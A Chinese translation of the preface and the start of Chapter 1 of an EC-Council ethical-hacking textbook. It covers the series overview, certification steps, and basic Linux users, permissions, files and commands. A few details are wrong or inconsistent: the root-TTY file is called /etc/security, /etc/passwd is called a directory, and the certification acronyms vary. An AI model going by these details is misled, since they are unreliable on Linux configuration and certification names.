# 《道德黑客与对策：Linux、Macintosh和移动系统》

## 前言

近年来，黑客行为和电子犯罪的复杂程度呈指数级增长。事实上，最近的报告表明，网络犯罪已经超过了非法毒品交易！*黑帽* 黑客（即不道德的黑客）正在掠夺政府、企业、公共和私有网络的信息系统，并不断将这些组织的安全机制测试到极限，其唯一目的是利用这些漏洞并从中获利。高关注度犯罪事件证明，传统的计算机安全方法并不足够，即使拥有最强大的边界、正确配置的防御机制（如防火墙、入侵检测和预防系统）、强大的端到端加密标准以及防病毒软件也是如此。黑客们证明了他们系统性地渗透世界各地网络的决心和能力。在某些情况下，*黑帽* 黑客可能能够执行如此隐蔽的攻击，以至于他们在不到 20 分钟内就能破坏系统，窃取所有有价值的东西，并完全抹去他们的踪迹！

EC-Council 出版社致力于遏制黑客行为。

### 关于 EC-Council

国际电子商务顾问委员会，更为人知的名字是 EC-Council，成立于 2001 年底，旨在解决对受过良好教育并获得认证的信息安全和电子商务专业人士的需求。EC-Council 是一个全球性的会员制组织，由行业和主题专家组成，他们共同制定标准，并提高信息安全认证和教育的门槛。

EC-Council 首先开发了 *认证道德黑客*（CEIH）项目。该项目的目标是教授黑客使用的方法论、工具和技术。利用数百位主题专家的集体知识，CEIH 项目迅速在全球范围内广受欢迎，目前由 450 多个授权培训中心在 70 多个国家提供培训。已有超过 60,000 名信息安全从业人员接受了培训。

CEIH 已成为许多政府机构和全球主要企业的基准。在 CEIH 推出后不久，EC-Council 开发了 *认证安全分析师*（EICSA）项目。EICSA 项目的目标是教授在高级渗透测试中必须应用的开创性分析方法。EICSA 项目导向 *授权渗透测试员*（LIPT）资格。*计算机黑客取证调查员*（CHFI）项目采用相同的设计方法，已成为计算机取证认证的全球标准。EC-Council 通过其强大的专业网络和庞大的行业追随者，开发了其他各种信息和电子商务项目。EC-Council 认证被视为当标准配置和安全政策课程不足时所需的重要认证。提供真正的实战性、战术性安全方法，掌握 EC-Council 项目传播的知识的人员正在全球范围内保障网络安全，并在黑客自己的领域击败他们。

### 关于 EC-Council | 出版社

EC-Council | 出版社成立于 2008 年底，是全球信息安全认证领导者 EC-Council 与全球领先的学术出版商 Cengage Learning 之间一项尖端合作的结果。这一伙伴关系标志着信息安全、计算机取证、灾难恢复和最终用户安全的学术教科书和研究课程的革命。通过识别 EC-Council 专业认证项目的关键主题和内容，并将这些世界级的内容重新应用于学术项目，EC-Council | 出版社得以成立。学术界现在可以将这些强大的尖端内容纳入新的和现有的信息安全项目中。通过缩小学术研究和专业认证之间的差距，学生和教师能够利用严格的学术重点和高需求的行业安全的优势。EC-Council | 出版社旨在革新全球信息安全项目，并最终培养出能够对抗日益严重的网络犯罪流行病和网络战争上升威胁的新型从业人员。

# 道德黑客与对策系列

EC-Council 出版社的 *《道德黑客与对策》* 系列书籍旨在面向那些立志成为安全官员、审计员、安全专业人员、站点管理员，以及任何关心或负责维护网络基础设施完整性的学习者。该系列涵盖了广泛的进攻性网络安全、道德黑客，以及网络防御和对策等主题。本系列内容的设计旨在将学习者带入一个交互式的沉浸式环境，向他们展示如何扫描、测试、入侵并保护信息系统。这些书籍中展示了各种各样的工具、病毒和恶意软件，使读者能够全面理解黑客所使用的战术和工具。通过深入理解黑客的运作方式，道德黑客能够建立强大的对策和防御系统，以保护其组织的关键基础设施和信息。完整使用本系列丛书，有助于帮助读者为参加并通过 EC-Council 的 CIEH 认证考试做好准备并取得成功。

## 系列丛书

- *《道德黑客与对策：攻击阶段》*/143548360X
- *《道德黑客与对策：威胁与防御机制》*/1435483618
- *《道德黑客与对策：Web 应用程序与数据服务器》*/1435483626
- *《道德黑客与对策：Linux、Macintosh 和移动系统》*/1435483642
- *《道德黑客与对策：安全的网络基础设施》*/1435483650

# Linux、Macintosh 和移动系统

*《Linux、Macintosh 和移动系统》* 一书探讨了用于黑客攻击的技术，包括 Linux、Macintosh、路由器、线缆调制解调器、防火墙、移动设备、蓝牙设备、RFID 和 USB 设备，以及如何为这些设备确定安全策略。

# 章节内容

第 1 章 *《Linux 黑客技术》* 深入探讨了与 Linux 相关的各种安全方面，包括根套（rootkits）和入侵检测系统。第 2 章 *《Mac OS X 黑客技术》* 介绍了 Mac OS X 的一些功能，然后讨论了影响该操作系统的漏洞。第 3 章 *《路由器、线缆调制解调器和防火墙的黑客技术》* 讨论了这些设备如何特别容易受到黑客攻击，以及这些漏洞如何成为确定企业和家庭安全策略的关键因素。第 4 章 *《手机、PDA 和手持设备黑客技术》* 包括关于调查人员必须了解的各类手持设备的讨论，以及这些启用设备中存在的漏洞。第 5 章 *《蓝牙黑客技术》* 解释了黑客对支持蓝牙功能的设备发起的攻击类型，以及使蓝牙更加安全的工具。第 6 章 *《RFID 黑客技术》* 概述了 RFID 技术，讨论了 RFID 碰撞以及实施 RFID 系统相关的风险，并列举了 RFID 安全控制措施。第 7 章 *《USB 设备黑客技术》* 解释了 USB 设备及其工作原理。它还涵盖了黑客用于攻击 USB 设备的工具，以及管理员可用于保护这些设备的工具。

# 章节特色

每一章都包含许多特色板块，所有设计都旨在增强学习者的学习体验。特色板块包括：

- *目标*：位于每章开头，使学习者聚焦于该章最重要的概念。
- *关键术语*：旨在使学习者熟悉该章节中使用的术语。
- *案例示例*：分布于全章，提供简短场景并附带问题，挑战学习者得出对所述问题或解决方案的答案。
- *章节摘要*：位于每章末尾，作为对该章涵盖的关键概念的回顾。
- *复习题*：允许学习者测试其对章节内容的理解程度。
- *实践项目*：鼓励学习者在完成章节学习后应用所学知识。实践项目的文件可以在学生资源中心找到。注意：您需要使用书中提供的访问代码才能进入该站点。请访问 `www.cengage.com/community/ecouncil` 查找学生资源中心的链接。

# 学生资源中心

学生资源中心包含完成章节末尾“实践项目”所需的所有文件。请使用书中提供的访问代码访问学生资源中心。请访问 `www.cengage.com/community/eccouncil` 查找学生资源中心的链接。

# 额外的教师资源

对于采用 *《Linux、Macintosh 和移动黑客》* 一书用于课程的全体教师，免费提供一个完整的教师资源包。这些资源可通过 Course Technology 网站（`www.cengage.com/course/technology`）获取，方法是进入在线目录中该书的页面，并选择“教师下载”。

资源包括：

- *教师手册*：该手册包含课程目标以及有助于您教学的其他信息。
- *ExamView 题库*：这款基于 Windows 的测试软件帮助教师设计和实施考试及预测试。除了生成可打印和实施的测试外，这个功能齐全的程序还有一个在线测试组件，允许学生在计算机上参加考试，并自动评分。
- *PowerPoint 演示文稿*：本书随附每章一套 Microsoft PowerPoint 幻灯片。这些幻灯片旨在用作课堂演示的教学辅助材料，也可提供给学生用于章节复习，或打印后在课堂分发。教师也可以自由添加自己的幻灯片。
- *实验*：这些是额外的动手活动，旨在为您的学生提供更多的练习。
- *评估活动*：这些是额外的评估机会，包括讨论题、写作作业、互联网研究活动以及家庭作业，外加一个最终的累积项目。
- *期末考试*：该考试对 *《Linux、Macintosh 和移动系统》* 的内容进行全面评估。

# Cengage Learning 信息安全社区站点

该站点专为学习者和教师创建，旨在让他们了解信息安全新闻和技术的最新发展。

访问 `community.cengage.com/infosec` 以：

- 通过实时新闻源、视频和播客了解信息安全的新动态；
- 通过博客和论坛与同行及安全专家建立联系；
- 浏览我们的在线目录。

# 如何获得 CIEH 认证

CIEH 认证侧重于从进攻性角度看待黑客技术和战术。该认证主要针对希望获得全面知识体系，从而在该领域获得更好机会的安全专业人员。获得 CIEH 认证意味着候选人具备安全威胁、风险和对策的基本知识。组织可以确信，候选人不仅仅是系统管理员、安全审计员、黑客工具分析师或漏洞测试员。候选人同时具备业务和技术知识。


CIEH 认证考试可通过授权的 Prometric 测试中心获得。为了在培训完成后通过 Prometric 测试中心参加认证考试以最终完成认证，您必须：

1. 访问 EC-Council Press 社区站点：`www.cengage.com/community/eccouncil`，申请并购买考试券，除非该券已随书购买。
2. 一旦您拥有考试券，请访问 `www.prometric.com` 并使用考试券上的信息安排考试。
3. 参加 CIEH 认证考试并以 70% 或更高的成绩通过。

CIEH 认证考试也可通过 Prometric Prime 获得。为了在培训完成后通过 Prometric Prime 参加认证考试以最终完成认证，您必须：

1. 访问 EC-Council Press 社区站点：`www.cengage.com/community/eccouncil`，购买考试券，除非该券已随书购买。
2. 与您的教师讨论安排考试时间，或访问上述提到的 EC-Council 社区站点以获取更多详细信息。
3. 参加 CIEH 认证考试并以 70% 或更高的成绩通过。

# 关于我们其他 EC-Council | Press 产品

## 网络安全管理员系列

EC-Council | Press 网络安全管理员系列旨在为那些立志成为系统管理员、网络管理员以及对网络安全技术感兴趣的人准备 EINS A 认证。该系列旨在从厂商中立的角度教育学习者如何防御他们管理的网络。该系列涵盖了评估网络和外部威胁、设计以及如何执行网络层安全策略的基本技能，最终保护组织的信息。该系列涵盖广泛的主题，从安全的网络基础、协议和分析、标准和政策、加固基础设施，到配置 IPS、IDS 和防火墙、堡垒机和蜜罐等许多其他主题，完成该系列学习的学习者将全面理解为保护其组织信息所采取的防御措施。完整使用该系列丛书有助于帮助读者为参加并通过 EC-Council 的 EINS A（网络安全管理员）认证考试做好准备并取得成功。

### 系列丛书

- *《网络防御：基础与协议》*/1435483553
- *《网络防御：安全策略与威胁》*/1435483561
- *《网络防御：边界防御机制》*/143548357X
- *《网络防御：保护故障排除网络操作系统》*/1435483588
- *《网络防御：安全与漏洞评估》*/1435483596

## 安全分析师系列

EC-Council | Press 安全分析师/授权渗透测试员系列旨在为那些立志成为网络服务器管理员、防火墙管理员、安全测试员、系统管理员和风险专业人员准备 EICSA/LIPT 认证。该系列涵盖了高级渗透测试和安全分析的广泛基础主题。该程序的内容旨在使学习者接触进行彻底安全分析的开创性方法，以及高级渗透测试技术。借助安全分析师系列的知识，学习者将能够执行必要的密集评估，以有效地识别和降低组织基础设施的安全风险。完整使用该系列丛书有助于帮助读者为参加并通过 EC-Council 的 EICSA（认证安全分析师）和 LIPT（授权渗透测试员）认证考试做好准备并取得成功。

### 系列丛书

- *《认证安全分析师：安全分析的高级工具》*/1435483669
- *《认证安全分析师：安全分析中的客户协议和报告程序》*/1435483677
- *《认证安全分析师：安全分析中的渗透测试方法》*/1435483685
- *《认证安全分析师：安全分析中的网络和通信测试程序》*/1435483693
- *《认证安全分析师：安全分析中的网络威胁测试程序》*/1435483707

## 计算机取证系列

EC-Council 出版社的**计算机取证**系列丛书旨在为准备参加 CHFI 认证考试的学习者提供指导，适合那些希望成为警察调查员和其他执法人员、国防和军事人员、电子商务安全专业人员、系统管理员、法律专业人士、银行、保险及其他行业专业人士、政府机构人员以及 IT 经理的读者。该项目内容的设计旨在让学习者了解以取证可信的方式检测攻击和收集证据的过程，意图是报告犯罪并防止未来攻击。该系列还包含了在计算机调查和分析方面的先进技术，以及对生成潜在法律证据感兴趣的技巧。完整使用该系列，将帮助学习者识别与计算机相关的犯罪和滥用案件中的证据，并追踪入侵黑客穿过客户端系统的路径。当完整使用该系列时，有助于帮助读者准备并成功通过 EC-Council 的 CHFI（认证取证调查员）认证考试。

### 系列图书

- **《计算机取证：调查程序与响应》** / 1435483499
- **《计算机取证：调查硬盘、文件和操作系统》** / 1435483502
- **《计算机取证：调查数据和图像文件》** / 1435483510
- **《计算机取证：调查网络入侵和网络犯罪》** / 1435483529
- **《计算机取证：调查无线网络和设备》** / 1435483537

## 网络安全 / 1435483715

**《网络安全》**旨在为任何希望学习计算机网络和安全基础知识的人设计。本产品提供关于网络犯罪、安全程序、如何识别安全威胁和攻击、事件响应以及如何保护互联网访问的信息。这本书赋予个人计算机安全知识技能，以开始高端 IT 项目。该书还帮助读者准备并成功通过 EC-Council 的 Security+ 认证考试。

## 无线安全 / 1435483766

**《无线安全》**向学习者介绍了无线技术的基础知识及其实际应用。**《无线+》**专为满足个人学习更多无线技术知识的愿望而定制。它不需要先决知识，旨在通过简单应用来教育学习者。主题包括无线信号传播、IEEE 和 ETSI 无线标准、WLAN 及其操作、无线协议和通信语言、无线设备以及无线安全网络。该书还帮助读者准备并成功通过 EC-Council 的 Wireless+ 认证考试。

## 网络安全 / 1435483774

**《网络基础》**提供了关于基础设施如何促成工作环境的基础核心知识。它面向希望优化资源利用、共享基础设施并利用技术及其便利性优势的办公室环境人员和家庭用户。主题包括网络基础、网络组件、无线网络、基本硬件组件、网络环境和连接性以及故障排除。该书还帮助读者准备并成功通过 EC-Council 的 Network+ 认证考试。

## 灾难恢复专业系列

**灾难恢复专业**系列丛书旨在为读者准备 EIDRP 认证，介绍识别脆弱性所采用的方法，以及如何采取适当的对策来防止和缓解组织的失败风险。它还提供了灾难恢复原则的基础，包括准备灾难恢复计划、评估企业风险、制定政策和程序，以及理解组织各成员的角色和关系、实施计划以及从灾难中恢复。学生将学习如何通过制定政策和程序来创建安全网络，以及如何在发生灾难时恢复网络。完整使用该系列有助于帮助读者准备并成功通过 EC-Council 的 EIDRP（灾难恢复专业人员）认证考试。

### 系列图书

- **《灾难恢复》** / 1435488709
- **《业务连续性》** / 1435488695

## 致谢

Michael H. Goldner 是位于弗吉尼亚州诺福克的 ITT 技术学院信息技术系的系主任，同时也讲授本科级别的计算机网络和信息保护系统课程。Michael 曾担任并主持 ITT 教育服务公司信息安全国家课程委员会的工作。他在 Seton 大学法学院获得了法律博士学位，在迈阿密大学获得学士学位，并在信息技术领域拥有超过 15 年的工作经验。他是美国律师协会的活跃成员，并曾服务于该组织的网络法律委员会。他是 IEEE、ACM 和 ISSA 的成员，并持有多项行业认可的认证，包括 CISSP、CEH、CHFI、CEI、MCT、MCSE/Security、Security+、Network+ 和 A+。Michael 最近完成了为 ITT 技术学院设计和创建计算机取证项目的工作，并密切合作 EC-Council 和 Delmar/Cengage Learning 创建了这一 EC-Council 出版社系列丛书。

# Linux 黑客技术

## 目标

完成本章后，您应该能够：

- 识别 Linux 的基本命令和功能
- 识别 Linux 文件结构
- 了解如何使用 Linux 内核
- 了解如何在 Linux 中编译程序
- 描述 Linux 安全
- 描述常见的 Linux 漏洞
- 解释 Linux IPTables
- 解释 SARA
- 解释 Linux 根套件（Rootkits）
- 应用根套件对策
- 描述 Linux 入侵检测系统
- 在 Linux 中使用工具

## 关键术语

**别名（Alias）** Linux 中的一个自定义命令，是正式命令字符串的替代；例如，如果用户总是希望看到目录的长列表，他可以或她可以设置一个别名，使得在命令输入行中键入 `ll` 就会别名为 `ls -l`。对于安全来说，危险在于如果攻击者在 root 级别别名化命令，覆盖常见命令的行为。

**Chmod** UNIX/Linux 中用于更改权限的命令；权限按人群（所有者、组、世界）和访问权限（读、写、执行）分组

**Chroot** Linux 中的一种安全措施，将 root 进程的根文件夹更改为系统的一部分；通过 `chroot`，root 进程被限制在一个目录树中，称为 `chroot`“监狱”


### 防火墙
编写用于在系统和网络之间提供安全的软件

### 内核（Kernel）
操作系统最基本的部分；它管理系统资源，并为系统的其他部分提供硬件的最基本抽象以供使用

### Linux
众多类 UNIX 操作系统变体之一，基于 Linus Torvalds 最初编写的 Linux 内核；Linux 是 UNIX 和 Linus 的合成词

### Man 页面
对交互式 shell 命令、系统接口或系统对象的在线描述

### 端口
系统连接到另一个系统的虚拟连接点；端口被分配数字，特定类型的 Applications 通常出现在特定的端口号上，例如 80 端口的 HTTP

### Root
在 Linux 和其他 UNIX 变体中，root 是超级用户，即拥有对整个系统拥有权限的用户

### Rootkit
一种创建用于隐藏攻击者已破坏系统并可能拥有 root 访问权限这一事实的软件包

#### 案例示例

Bryan 在 top-shoppy.com 担任网络管理员。这个小型在线购物门户网站提供多种优质低价产品。Bryan 是 Windows 方面的专家。后来，该门户网站从 Windows 切换到 Linux。Bryan 被赋予在系统上安装 Linux 的责任。由于缺乏 Linux 专业知识，他不知道如何安装。但对尝试新事物感兴趣促使他承担起这项责任。在安装 Linux 时，每当出现默认选项时，他都选择了默认选项。在一周内，该购物门户网站被黑客入侵，所有系统都从 Web 上宕机了。操作系统是否安装不当？门户网站可能遭受哪些损失？

在这次攻击之后，伦理黑客 Jason 立即被叫来排查问题。在追踪生产部门的系统数小时之后，Jason 得出结论，生产服务器上的 Linux 操作系统未正确安装。安全策略定义得很糟糕。Jason 建议了以下措施：
- 正确安装操作系统。
- 设置并启用 `IPTables`。
- 配置与安全相关的内核参数。
- 禁用不必要的守护进程和网络服务。
- 更改默认密码并创建常规用户。
- 禁用通过 SSH 的远程 root 登录。

## 引言：Linux 黑客技术

`Linux` 是基于 Linus Torvalds 最初编写的 Linux 内核的众多类 UNIX 操作系统变体之一。Linux 的出现是开源运动的真正起源。在相信为了正确理由脱离专有运动程序员的支持下，Linux 在企业计算领域取得了进展。Linux 已从被标记为不友好、不可靠的操作系统演变为一个备受尊重的、用户友好且能够支持许多关键应用程序的操作系统。随着 Linux 流行度的增加，与 Linux 相关的安全问题正获得更多的关注。Linux 历来是攻击者的最爱。虽然 Linux 已演变为一个稳健的操作系统，但 Linux 的复杂性带来了一些与安全相关的威胁。如今，全球许多服务器运行 Linux。Linux 的固有安全性是其被广泛采用的主要原因之一；然而，随着攻击者将注意力转向 Linux，许多漏洞已被发现。本章将探讨与 Linux 相关安全的各个方面。

### 为什么选择 Linux？

Linux 具有财务、技术和性能优势，使其成为组织的 attractive 选择。Linux 发行版广泛可用，可以下载到任何系统。流行的发行版包括 Red Hat、Debian、Mandrake 和 SUSE。也有可用的专业发行版。这些包括 Knoppix、Fedora Core、Suse Live 和 Sire Live。Linux 相比其他一些系统具有安全优势，因为程序员经常在现实世界应用中测试 `内核`（操作系统最基本的部分）的 beta 版本。这使得能够在稳定版本的内核可用之前发现漏洞并发行补丁。然而，任何内核组件程序都有可能被木马植入恶意代码并上传到可疑站点供下载。良好的安全政策和实践的重要性怎么强调都不为过。Linux 通过以下方式提供性能和灵活性
允许多个用户同时登录系统。用户可以按需多次登录，并访问 Linux 系统上的资源。
所有 Linux 账户的信息都存储在 `/etc/passwd` 和 `/etc/shadow` 文件中。`/etc/passwd` 的每一行都是一条记录，包含有关用户的信息。以下是 `/etc/passwd` 文件中的两行示例：

```
root:c$4FGRtdsea9TG:0:0:/root:/bin/bash
adm::3:4:adm:/var/adm:
```

在第一行中，`root` 是用户名，`c$4FGRtdsea9TG` 是加密后的密码，`0:0:` 表示用户 ID 和组 ID，`/root` 是主目录；而 `/bin/bash` 是用户登录机器时提供的 shell。在 Linux 和其他 UNIX 变体中，`root` 是超级用户，拥有对整个系统的控制权。

# Linux 发行版

目前共有 90 多种 Linux 发行版。其中一些列示如下。请访问其网站以获取更多信息。
- `SUSE` (http://www.opensuse.org/): openSUSE 项目是由 Novell 赞助的全球社区计划，旨在推广 Linux 的使用。
- `Fedora` (http://fedoraproject.org/): Fedora Core 是由 Red Hat 赞助的免费操作系统。它使用 RPM 软件包管理器。Fedora 的开发社区致力于对操作系统进行上游修复，以便其补丁可以应用于所有 Linux 发行版。
- `Gentoo` (http://www.gentoo.org/): Gentoo 是一个免费的操作系统，基于 Linux 或 FreeBSD，可以进行自动优化和自定义。该发行版强调可配置性和性能。Gentoo 的灵活性得益于 Portage 软件分发系统。
- `Ubuntu` (http://www.ubuntu.com/): Ubuntu 是一个完整的基于 Linux 的操作系统，可免费提供，并拥有社区和专业支持。Ubuntu 基于 Debian，强调易用性，并每六个月发布一个新版本。
- `ArchLinux` (http://www.archlinux.org/): ArchLinux 强调简洁性和灵活性。它有一个轻量级、精简的核心软件包列表。

# Linux 基础知识

### 别名命令

Linux 的某些功能需要谨慎处理；例如，别名命令可能带来安全风险。在 Linux 中，`别名` 是一种自定义命令，用于替代正式命令字符串。通过设置别名，用户可以指定一个字符串来代表另一个通常更长的命令。用户可能期望一个通常被别名化（以增加功能）的命令以特定方式执行。然而，某些 shell 环境可能没有将这些命令设置别名，从而忽略增加的功能。这可能导致严重后果。一个例子是删除文件命令 `rm`。Red Hat 发行版为 root 用户设置了交互式的别名版本。然而，在一个未将命令设置别名且未设置为交互式的系统中，执行 `rm` 将导致文件在没有提示 root 用户的情况下被删除，从而造成数据丢失。避免由于别名命令导致安全漏洞的一个良好做法是避免将核心或高影响命令映射为别名。

### Shell 类型

以下是 Linux 中可用的一些不同 shell：
- `/bin/bash` 和 `/bin/sh`: Bourne shell
- `/bin/ksh`: Korn shell
- `/bin/csh`: C shell

# Linux 用户和组

大致来说，Linux 中有三种用户类型：root、系统用户和普通用户。root 用户拥有最大的权限，并且对某些应用程序或服务具有独占访问权。例如，Apache Web 服务器上的 httpd 就是一个特权应用程序/服务的例子。然而，由于如果服务器被黑客入侵，攻击者将获得广泛的权限，因此 Apache 服务器不应以 root 身份运行。root 用户在 `/etc/passwd` 目录中列为用户 ID 0。只有 root 用户才能绑定到低于 1024 的端口。`端口` 是系统连接到另一个系统的虚拟连接点。系统用户不是特定的用户账户。它们是系统中用于特定任务的账户。FTP 是一个系统用户的例子。普通用户是特定的用户账户。与系统账户不同，普通用户登录系统并被分配特定的主目录。普通用户受到限制，无法直接执行系统级任务。他们使用系统用户账户来执行系统活动。

组在 `/etc/group` 中定义。每一行是有关组信息的单条记录。以下是 `/etc/group` 中一行示例：

```
“hackers:z: 007: john, jane”
```

在这个例子中，“hackers” 表示唯一的组名称，“z” 是加密的组密码，“007” 是唯一的组 ID，而 “john, jane” 是组成员。确保成员获得适当访问权限的一个基本安全检查，是检查 `/etc/passwd` 和 `/etc/group` 中的用户属性。

了解 Linux 如何处理权限非常重要，因为不安全的默认权限可能导致安全妥协。以下是以长格式列出的目录列表的一部分（通过执行 `ls -l` 创建），显示了 `report.txt` 的权限：

```
report.txt -rw-rw-r-- 1 john users 32459 Jan 16 16:20 report.txt
```


在上面的示例中，第二个字段，`-rw-rw-r--`，表示文件的权限。它可以按以下方式解释：

- 文件类型由 `-` 表示。文件类型可以是以下之一：

  - `-` = 文件
  - `l` = 链接
  - `d` = 目录
  - `b` = 块设备（磁盘驱动器）
  - `c` = 字符设备（串行端口或终端）

- 所有者权限由 `rw-` 表示。
- 组权限由第二个 `rw-` 表示。
- 其他用户权限由 `r--` 表示。

还有另外两个命令，`suid`（设置用户 ID）和 `sgid`（设置组 ID），也用于更改用户权限。

# Linux 信号和日志

Linux 使用信号在进程之间通信；示例包括 `term`、`HUP` 和 `kill`。除了 root 用户外，用户只能向他们拥有或启动的进程发送信号。例如，`kill -TERM 1521` 用于终止进程 ID 为 1521 的进程。

Linux 中的两个安全管理特性是内存管理和日志记录。内核会终止消耗过多内存的任何进程，而不影响其他进程。日志条目单独存储在一个文件中，管理员可以稍后解析它们。日志文件可以是详尽的，Linux 使用程序 `logrotate` 通过将日志条目存储在多个日志文件中来管理日志文件。

# /etc/security

`/etc/security` 文件用于确定 root 用户被允许登录到哪些 TTY 设备。理想情况下，文件 `/etc/security` 应该只有一个条目：`tty1`。这可以防止入侵者登录为 root，除非他或她亲自位于机器旁，即使他或她能够破解拥有 root 权限用户的密码。

# Linux LiveCD

LiveCD 是一个存储在可启动 CD 或 DVD 上的操作系统（通常还包含其他软件），可以直接在 CD 或 DVD 驱动器中运行。使用 LiveCD，无需在硬盘上安装任何东西。弹出 LiveCD 后，通过重新启动计算机，系统将返回到其先前状态。启动文件存储在临时内存中，例如 RAM 磁盘，而不是永久内存。大多数 LiveCD 可以访问内部或外部硬盘驱动器上的信息，如软盘和 USB 闪存驱动器。以下操作系统也可获得 LiveCD：

- Mac OS
- Mac OS X
- Solaris
- Minix
- BeOS
- ReactOS
- FreeBSD
- NetBSD
- MS-DOS

基于 Linux 的 LiveCD 使用 `SysLinux` 实用程序启动。LiveCD 支持自动配置和即插即用功能，因此用户无需每次使用 LiveCD 启动时都配置系统。

以下是基于 Linux 的 LiveCD 列表：

- Arudius: 用于信息安全的 Zenwalk 衍生版
- Damm Small Linux: 一个 Linux 发行版。它是一个轻量级的 Knoppix 版本，裁剪为 50 MB 以适配名片大小的 CD
- Dyne:abolic: 一个面向多媒体制作的 LiveCD 发行版
- GeeXboX: 一个基于 MPlayer 和 Linux 的自包含媒体中心套件
- Gnoppix: 基于 Debian 的 LiveCD
- Knoppix: 最初的基于 Debian 的 LiveCD
- MEPIS: 一个安装在硬盘上的基于 Debian 的 Linux 发行版
- Morphix: 一个基于 Debian 并带有 GNOME 和 Fluxbox 的 Linux 发行版
- PCLinuxOS
- Ubuntu: 基于 Debian 的衍生版
- Vector Linux Live

# 关于 Knoppix

Knoppix 是一个可启动的 CD，包含一系列软件和自动硬件检测技术。它支持以下内容：

- 许多显卡
- 声卡
- SCSI 和其他 USB 设备

它可以作为以下用途：

- Linux 演示
- 教育 CD
- 救援系统
- 商业软件产品演示的平台

启动 Debian、Fedora Core、FreeBSD、SUSE 或 SLES 等虚拟设备提供了一台完全可定制的 Linux 机器的能力。用户可以使用在线软件存储库添加或删除应用程序。他们甚至可以自定义桌面。

# 文件和目录

## 一切皆为文件

在 Linux 中，一切均以文件的形式存在，包括设备。这意味着硬盘和磁盘上的一切都是文件。文件是存储数据的基本单位；文件可以存储在硬盘、CD-ROM 和其他介质上。文件夹用于组织系统上的文件。根 (`/`) 是最低级别的文件夹。目录是文件和链接的集合。目录中的目录称为子目录。

## 文件名区分大小写

大写字母和小写字母之间存在区别。例如，`userfile` 和 `UserFile` 是两个不同的文件。

### 256 个字符

Linux 中文件、链接或目录的名称不得超过 256 个字符，完整的文件路径不得超过 4,096 个字符。

### 特殊字符

在为文件、链接或目录命名时，用户不应包含诸如 `#`、`"` 和 `?` 等元字符。此外，用户不应使用正斜杠 (`/`)，因为它表示目录。用户还应避免在名称中使用空格。

### 无需扩展名

扩展名是以句点开头的文件名后缀，通常为两到三个字母。在 Linux 中，由于存储文件的目录表明了文件的类型，因此无需使用扩展名来标识文件名。Linux 可以读取许多类型的扩展名，例如用于图形文件的 `.jpg`，用于 Web 文件的 `.html`，或用于 C 源文件的 `.c`。

# 文件系统

## 层次化树

在 Linux 中，文件结构就像一棵层次化的树，如图 1-1 所示。一切都始于根目录，然后是子目录，依此类推。与 MS-DOS 或 Windows 等其他操作系统不同，Linux 将所有目录都存储在根目录下。

## 没有驱动器字母

在 Linux 中，不需要驱动器字母。独立的分区通过一个称为挂载的过程来打开。在 Windows 中，每个共享都有一个子目录。该驱动器的内容出现在子目录中。在 Linux 中，如果用户没有挂载分区，系统就不知道该分区的存在。



图 1-1 Linux 文件结构就像一棵层次化的树。

# Linux 基本命令

## 获取信息

Linux 中有很多用于获取系统信息的常用命令。其中许多命令是任何类 UNIX 系统共有的。以下是一些此类命令的示例：

- `man:` 一个提供对 `man 页面` 访问权限的命令，`man 页面` 是交互式 shell 命令、系统接口和系统对象的在线说明。
- `info:` 一个查看信息文件的查看器。该命令用于获取更多信息。
- `ps:` 该命令用于查看当前 shell 中正在运行的进程。

## 查看文件

如图 1-2 所示，Linux 中有很多用于查看文件的命令。以下是其中一些命令的说明：

- `cat:` `Cat` 是 `concatenate`（连接）的缩写。使用此命令，无需在编辑器中打开文件，即可从命令行读取文本文件的内容。默认情况下，它将文件内容打印到标准输出（通常是屏幕）。
- `more:` 它显示文件的第一屏。如果用户想向下滚动一行，他或她可以按 Enter 或 Space。它不允许向上滚动。
- `less:` `Less` 是 `more` 的高级版本，它提供了 `vi` 文本编辑器的按键命令以增强文件查看。允许向上滚动。通过按 Enter 和 Space 或使用方向键和 Page Up/Page Down，用户可以向上或向下滚动。
- `head:` 用户不必滚动整个页面来查看前 10 行，只需使用 `head 文件` 命令即可。如果用户想查看文件的前 `n` 行，他或她可以输入 `head -<n> <filename>`。例如，`head -25 textfile` 显示名为 `textfile` 的文件的前 25 行。
- `tail:` 这与 `head` 的作用相反。如果用户想查看最后 10 行，他或她可以使用 `tail 文件` 命令。要读取文件的最后 `n` 行，用户可以输入 `tail -<n> <filename>`。

## 导航

以下是一些用于导航文件结构的命令：

- `cd:` 该命令用于更改目录。例如，`cd directoryname` 会切换到目录 `directoryname`。
- `cd ..` 如果用户想返回父目录，可以使用该命令。例如，从 `/Home/Dir/subdir`，`cd ..` 将用户移动到 `/Home/Dir`。
- `ls:` 该命令用于显示当前目录中的文件和目录列表。
- `ls -l:` 这以长格式显示当前目录中的文件和目录列表。长列表包括文件大小、所有者权限等。



图 1-2 有很多用于查看文件的命令。

# 文件和目录操作

文件是信息的集合。目录是所有文件、链接和子目录的集合。以下是 Linux 中用于操作文件、链接和目录的一些命令：

- `cp`: 这是标准的复制命令。语法是 `cp <file> <newfile>`，其中 `file` 是现有目录或文件的名称，`newfile` 是新目录或文件的名称。


`mv`：该命令用于移动文件和目录。语法是 `mv <file> <newfile>`，其中 `file` 是当前文件或目录的名称，`newfile` 是该文件或目录的新位置。

`mkdir`：该命令用于创建一个全新的目录。语法是在 `mkdir` 后跟目录名称，例如 `mkdir newdir`。

`rm`：该命令用于删除目录和文件。最常用的形式是 `rm -r name`。`-r` 标志指示系统递归删除目录中的所有子目录。

